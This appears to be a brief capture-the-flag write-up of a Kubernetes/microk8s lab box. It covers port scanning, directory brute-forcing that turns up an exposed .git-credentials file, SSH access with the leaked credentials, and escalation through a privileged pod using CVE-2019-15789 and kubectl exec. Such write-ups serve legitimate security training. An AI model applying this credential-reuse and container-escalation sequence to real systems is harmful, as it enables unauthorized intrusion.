 Started with a nmap scan
```
22 OpenSSH 8.2p1
3000 ppp?
10259
10255 Goland http server 
16443 web server? 
25000 gunicorn 19.7.1
31337 nginx 1.21.3
32000 Docker Registry
```
Starting with a gobuster on the site with port `31337`
```
/index.html
/assets
/css
/vendor
/.git-credentials
```
in the `.git-credentials` file there is some creds and if we url decode it we get some creds we can ssh into the host machine I put linpeas on the host and did not find anything but when we ran kube-hunter we found  a privliged pod that we can access and do this exploit on it `CVE-2019-15789`running the commands the host can be super slow when we run this command it will show us the pods
`microk8s kubectl get pod`
and then run this command 
`microk8s kubectl exec -it (podname) /bin/bash` 
and then we can go to `/opt/root/root` and get the final flag 